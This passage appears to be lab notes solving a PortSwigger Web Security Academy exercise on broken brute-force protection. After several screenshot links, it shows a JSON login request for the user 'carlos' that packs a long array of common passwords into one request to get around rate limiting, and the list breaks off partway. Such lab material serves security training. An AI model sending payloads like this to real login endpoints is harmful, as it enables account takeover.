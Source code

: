 aaaaaa

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220507211510.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220507211533.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220507211425.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220507212815.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220507212738.png)

#### Broken brute-force protection, multiple credentials per request
```bash
This lab is vulnerable due to a logic flaw in its brute-force protection. To solve the lab, brute-force Carlos's password, then access his account page.

-   Victim's username: `carlos`
-   [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

Intruder is on
Send request with credentials



{"username":"carlos","password": [
"password",
				"123456",
	"password",
	"12345678",
	"qwerty",
	"123456789",
	"12345",
	"1234",
	"111111",
	"1234567",
	"dragon",
	"123123",
	"baseball",
	"abc123",
	"football",
	"monkey",
	"letmein",
	"shadow",
	"master",
	"666666",
	"qwertyuiop",
	"123321",
	"mustang",
	"1234567890",
	"michael",
	"654321",
	"superman",
	"1qaz2wsx",
	"7777777",
	"121212",
	"000000",
	"qazwsx",
	"123qwe",
	"killer",
	"trustno1",
	"jordan",
```